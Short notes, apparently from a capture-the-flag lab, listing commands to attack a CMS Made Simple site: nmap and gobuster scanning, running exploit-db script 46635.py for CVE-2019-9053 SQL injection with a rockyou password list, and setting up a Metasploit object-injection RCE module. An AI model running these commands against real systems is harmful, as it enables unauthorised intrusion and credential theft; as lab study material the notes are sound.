

nmap -sV IP

gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt
found: http://IP/simple/ (cms made simple)

searchsploit cms made simple
 

 cat /usr/share/exploitdb/exploits/php/webapps/46635.py
 found: CVE-2019-9053
 python2 46635.py -u http://IP/simple/ -c -w /usr/share/wordlists/rockyou.txt

___________________________________________________________________________________________
auxiliary/scanner/http/cmsms_sqli
msconsole

search cms made simple

info exploit/multi/http/cmsms_object_injection_rce

use exploit/multi/http/cmsms_object_injection_rce
set RHOSTS IP

